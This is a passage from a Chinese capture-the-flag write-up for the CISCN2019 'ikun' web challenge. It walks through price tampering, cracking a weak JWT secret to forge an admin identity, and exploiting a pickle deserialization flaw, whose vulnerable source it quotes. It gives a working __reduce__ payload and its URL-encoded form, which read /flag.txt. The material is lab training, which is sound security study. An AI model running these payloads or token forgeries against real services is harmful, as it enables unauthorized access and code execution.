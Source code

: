 这个字符代表一万，因此可以购买。[查询网站](https://www.compart.com/en/unicode/)

## [CISCN2019 华北赛区 Day1 Web2]ikun

首先需要找到 `lv6`，页数很多，写脚本跑一下：
```py
import requests

base = 'http://92a45198-65ac-407a-afbb-530a083474e9.node3.buuoj.cn/shop?page='

for i in range(1,2000):
    url = base + str(i)
    r = requests.get(url)
    if 'lv6.png' in r.text:
        print(i)
        break
```

发现在 181 页，点击购买发现钱不够但是存在折扣，因此抓包修改折扣为非常小的数字，进入 `b1g_m4mber` 页面，提示说只有 admin 可以访问。

抓包发现存在一个长度看起来很短的 jwt，扔到 `c_jwt_cracker` 里跑出密钥 `1Kun`，从而可以到 `jwt.io` 上伪造 `admin` 身份。

随后多出了一键成为大会员的功能，但是点击没有用，查看源代码得到源码。经过代码审计后，发现在 `Admin.py` 处存在 pickle 反序列化：

```py
@tornado.web.authenticated
def post(self, *args, **kwargs):
    try:
        become = self.get_argument('become')
        p = pickle.loads(urllib.unquote(become))
        return self.render('form.html', res=p, member=1)
    except:
        return self.render('form.html', res='This is Black Technology!', member=0)
```

我们可以借助其魔术方法 `__reduce__` 来执行 python 代码。[参考](https://github.com/RafeKettler/magicmethods)

注意 pickle 不能跨 python 版本，这里采用 python2：
```py
import pickle
import urllib

class payload(object):
    def __reduce__(self):
        return (eval, ('open("/flag.txt","r").read()',))

p = pickle.dumps(payload())
print urllib.quote(p)
```

即可生成 URL 编码的序列化数据，填入 `become` 字段即可。
```
c__builtin__%0Aeval%0Ap0%0A%28S%27open%28%22/flag.txt%22%2C%22r%22%29.read%28%29%27%0Ap1%0Atp2%0ARp3%0A.
```
